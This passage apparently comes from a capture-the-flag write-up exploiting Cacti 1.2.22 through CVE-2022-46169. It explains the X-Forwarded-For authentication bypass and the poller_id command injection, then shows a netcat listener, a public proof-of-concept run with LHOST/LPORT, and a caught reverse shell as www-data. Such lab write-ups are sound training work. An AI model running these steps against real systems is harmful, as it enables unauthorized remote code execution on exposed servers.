 ## Initial Foothold

Homepage:

![](home.png){: .normal width="65%"}

We have the app's version: `Cacti 1.2.22`, so before doing anything else let's search for known vulnerabilities:

![](cacti_cve.png){: .normal width="60%"}

We have 4/4 references for the same RCE vulnerability: [CVE-2022-46169](https://nvd.nist.gov/vuln/detail/CVE-2022-46169)! 

**Vulnerability**:
	The exploit consists of accessing the vulnerable `/remote_agent.php` endpoint, whose authentication can be bypassed due to a weak implementation of the `get_client_addr` function that uses a user-controlled header, namely `X-Forwarded-For` , to authenticate the client. Once that initial check is bypassed, we then trigger the `poll_for_data` function via the `polldata` action, which is vulnerable to command injection via the `$poller_id` parameter that is passed to `proc_open` , a PHP function that executes system commands.

Let's try this [PoC](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22):

```bash
# setting up a listener
$ nc -lvnp 1337
listening on [any] 1337 ...
```

```bash
# clone the git repo
$ sudo git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
Cloning into 'CVE-2022-46169-CACTI-1.2.22'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 18 (delta 4), reused 4 (delta 1), pack-reused 0
Receiving objects: 100% (18/18), 5.07 KiB | 2.53 MiB/s, done.
Resolving deltas: 100% (4/4), done.

$ cd CVE-2022-46169-CACTI-1.2.22/

$ python3 CVE-2022-46169.py -u http://10.10.11.211/ --LHOST=10.10.14.33 --LPORT=1337
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

```bash
# catching the reverse shell
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.11.211] 39056
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$
```
